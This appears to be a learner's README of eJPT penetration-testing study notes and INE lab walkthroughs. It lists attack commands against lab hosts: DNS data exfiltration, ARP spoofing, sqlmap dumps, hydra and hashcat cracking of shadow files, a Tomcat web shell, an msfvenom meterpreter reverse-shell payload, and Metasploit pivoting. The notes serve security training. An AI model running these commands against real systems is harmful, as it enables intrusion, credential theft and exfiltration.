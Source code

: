 ## eJPT 🛠

Hey Hai, This is just a walkthrough and kinda recap of what in learnt during my INE prep course for Ejpt

### Inbuilt Labs
#### HTTPS Traffic Sniffing
- Once can actually sniff HTTP traffic only in clear using wireshark, we cant examine the HTTPS traffic
- Follow TCP Stream 
#### Find the Secret Server
- sudo ip  route add 192.168.222.0/24 via  10.175.34.1     [sudo ip route add ip/subnet via gateway]
- sudo ip route add 0.0.0.0/0 via 192.168.1.1
#### Data Exfiltration
- Configure the DNS server as attcker IP for Victim machine
- https://github.com/TryCatchHCF/PacketWhisper
- Open python server on attacker machine
- Download the zip on victim machine and run it
- We are good to exflitrate data ;)

#### Burp
- Inspect the website, from that we can able to discover robots.txt
- Using sniper from burp, check all the directories availibility
- Which reveals connections directory as 200, and ?debug is parameter that we came around robots.txt
- Playing around with parameter reveals it can only be set to true
- Set it to true, gives sensitive information back
- Fixing the In Scope
- Target > Site map tab > Spider this host
- Try to bypass the login, using intercept or any other means
- Intruder option and thier positions to attack
#### Null Sessions
- nmblookup -A ip-address
- smbclient -L //10.10.21.9 -N
- enum -S 10.1.25.26    [-S for shares; -U for users; -P for password policy;]
-  nmblookup -A 10.10.10.10
-  smbclient -L //10.10.10.10 -N (list shares)
-  smbclient //10.10.10.10/share -N (mount share)
-  enum4linux -a 10.10.10.10
-  smbmap -H demo.ine.local
-  smbclient //demo.ine.local/raymond -N   [check for every individual user]
-  enum4linux -s ~/Desktop/wordlists/100-common-passwords.txt demo.ine.local
#### ARP Spoofing
- echo 1 > /proc/sys/net/ipv4/ip_forward
- arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101 [t for ]

#### Scanning and OS Fingerprinting
- fping -a -g 10.142.111.0/24 2> /dev/null
- nmap -sn -n 10.142.111.*    [There is probably a host that does not respond to ICMP echo requests, but that has a service listening on the network.]
- nmap -sS 10.142.111.1,6,48,96,99,100,213  [SYN Scan on Alive Hosts]
#### Nessus
- Advanced Customized Scan
- DISCOVERY -> Host Discovery settings -> Use Fast Network Discovery
#### Dirbuster
- dirb http://172.16.64.140/project/ -u admin:admin 
- gobuster dir -t 50 --w /usr/share/wordlists/dirb/common.txt --url http://172.16.64.81/ -x /,php,txt,bak,old,html,xx
- ffuf -w /usr/share/wordlists/dirb/common.txt -u http://172.16.64.81/FUZZ
#### Sql Injections
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 --dbs --dump
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin --tables
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login --coloumns
- sqlmap -u http://10.124.211.96/newsdetails.php?id=1 -D admin -T login -C username,password,logintime
- Intercept the request using burp, save it to req.txt
- sqlmap -r req.txt -p title  -> focusing cookie based sessions and multi-parameter based queries
#### Brute Force
- hydra crackme.site http-post-form "/login.php:usr=^USER^&pwd=^PASS^:invalid Credentials" -L  /usr/share/username.lst -P /usr/share/pass.lst -f -V
- unshadow passwd shadow > hashestocrack
- john hashestocrack     ->password      (username)
- /etc/login.defs  -> to check hashin used for passwords
- hashcat -m 1800 -a 0 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt
### The Black Box Walkthrough's : Box 1

#### Machine 1
- fping -a -g network id with mask 2>/dev/null
- naabu -p - ip address
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- tomcat Enumeration http:ip:port/manager/html  ->   [tomcat:s3cret]
- Which helps you to upload a .war file and deploy it on the web-server [jsp web shell]
- https://github.com/BustedSec/webshell/blob/master/webshell.war
- This will lead to RCE, confirimg the base os is linux
- Creating a meterpreter payload and listen using metasploit
-  msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=172.16.64.10 LPORT=3211 -f elf > meter.elf
-  rename .elf to .war upload it, delpoy and this file can be relocated at /var/lib/tomcat8/webapps
-  mv /var/lib/tomcat8/webapps/meter.war /tmp/meter ls /tmp/meter chmod +x /tmp/meter
-  reverse shell at meterpreter listener

#### Machine 2
- sudo nmap -Pn -T4 --open -sS -sC -sV --min-rate=1000 --max-retries=3 -p- 172.16.64.140 -v  
- webserver on port 80
- dirb -u dirb http://172.16.64.140/  -> discovery a directory project, which requires uname and pass [rnadom pass admin:admin [correct]]
- dirb http://172.16.64.140/project/ -u admin:admin   [for further directory enum]
- revealed the flag path and DB credentials for next machine [fooadmin:fooadmin]
#### Machine 3
- Metasploit is ur bestie
- Search metasploit for sql version for scanners or exploits
- use auxiliary/scanner/mssql/mssql_login  [login check/bruteforce]
- use auxiliary/admin/mssql/mssql_enum     [enumeration]
- use exploit/windows/mssql/mssql_payload  [exploit]
- Gives us a meterpreter session

### The Black Box Walkthrough's : Remastered 1
#### Machine 1
- Enumeration reveals it's using V-CMS 1.0
- Search Metasploit, there will be an open exploit
- use exploit/linux/http/vcms_upload
- As mentioned it the question, the vcms server is connected to some other webserver on some other network

#### Machine 2
- cat /etc/hosts will reveal the other web server info/ or ifconfig will also gives info about the other network
- But, still we wont be able to ping the other network subnet
- run autoroute -s 192.69.228.0 -n 255.255.255.0 -> this adds route automatically to the meterprrter session
- route add 192.69.228.0 255.255.255.0 1  -> you can also use this where "1" is the meterpreter session id
- use auxiliary/scanner/portscan/tcp
- set PORTS 80, 8080, 445, 21, 22
- set RHOSTS 192.69.228.3-10
- exploit
- This will do a portscan on the remote network and reveals the open ports
- Then we need to portforward our local port to the remote port do a nmap scan
- portfwd add -l 1234 -p 21 -r 192.69.228.3  -> l [local port] p [parayvalla port] r [remote Ip]
- portfwd add -L [attacker machine IP] -l listening_port -p 80 -r [victim machine IP]
- nmap -sS -sV -p 1234 localhost
- This reveals a ftp service and version, using metasploit, we can find a inbuilt exploit, then boo tada


















